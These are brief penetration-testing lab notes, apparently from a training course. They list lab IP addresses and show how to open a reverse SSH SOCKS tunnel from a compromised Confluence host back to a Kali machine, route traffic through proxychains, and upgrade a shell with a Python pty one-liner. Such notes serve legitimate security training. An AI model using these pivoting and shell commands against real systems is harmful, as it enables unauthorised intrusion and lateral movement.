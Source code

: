 ```yaml
---
IP_KALI: 192.168.45.157
PORT_KALI-CONF: "9998"
IP_CONFLUENCE: 192.168.234.63
IP_MULTISERVER: 192.168.234.64
IP_PGDATABASE: 10.4.234.215
USER: database_admin
---
```

On the CONFLUENCE machine:
- ssh -N -R <span id="PORT_KALI-CONF"/>9998<span type="end"/> kali@<span id="IP_KALI"/>192.168.45.157<span type="end"/>

Check the port is bound:
```
sudo ss -ntplu
```

Edit last line of /etc/proxychains4.conf
- socks5 127.0.0.1 <span id="PORT_KALI-CONF"/>9998<span type="end"/>
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```